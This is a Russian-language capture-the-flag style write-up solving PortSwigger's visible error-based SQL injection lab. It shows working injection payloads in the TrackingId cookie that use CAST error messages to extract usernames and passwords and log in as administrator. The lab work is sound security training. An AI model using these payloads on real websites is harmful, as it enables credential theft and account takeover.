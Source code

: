 ```yaml
---
title: "Visible error-based SQL injection"
date: 2025-06-19
tags: [sql, writeup]
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)


## Scope

```
https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
```

В данной лабе присутствует **Error based  SQL injection** в параметре `Cookie`. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


## Solution

Так как уязвимость в `Cookie`, то возьму `GET`-запрос с выставленными значениями.

```http
GET / HTTP/2
Host: 0a75008704f2164580726c3600ac0013.web-security-academy.net
Cookie: TrackingId=dUrA4au9zQX6dlb5; session=5UhSQKjfJwXutcIvFyn3RNseuyAD7ybb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Скорее всего уязвимым является параметр `TrackingId`. Подберу обрамелние и пейлоад:

```
dUrA4au9zQX6dlb5'-- -Error
```

Я получил следующую ошибку с описанием:

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/1.png){: height="200" .align-center}

Из текста видно, что для обрамления используются одинарные кавычки. Тогда подберу пейлоад:

```
dUrA4au9zQX6dlb5' or false-- -Ok
dUrA4au9zQX6dlb5' or true-- -Ok
dUrA4au9zQX6dlb5' and false-- -Ok
dUrA4au9zQX6dlb5' and true-- -Ok
```

Обрамление работает, но содержимое не отображается. Попробую специально вызывать ошибку с помощью `CAST`:

```
dUrA4au9zQX6dlb5' and 1=CAST((SELECT 'a') AS int)-- -Error
```

Я получил следующую ошибку:

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/2.png){: height="200" .align-center}

Попробую получить имена пользователей:

```
' and 1=CAST((SELECT username FROM users) AS int)-- -Error
```

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/3.png){: height="200" .align-center}

Из сообщения видно, что в БД лежит больше одного логина, поэтому я использую `LIMIT`, чтобы получать значения по одному:

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- -
```

Получил следующий ответ:

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/4.png){: height="200" .align-center}

Получу пароль таким же образом:

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- -
```

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/5.png){: height="200" .align-center}

Пароль получен: `oar4hhxs5cflalzuprmh`. Попробую зайти в аккаунт администратора:

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/6.png){: height="200" .align-center}

Лаба решена:3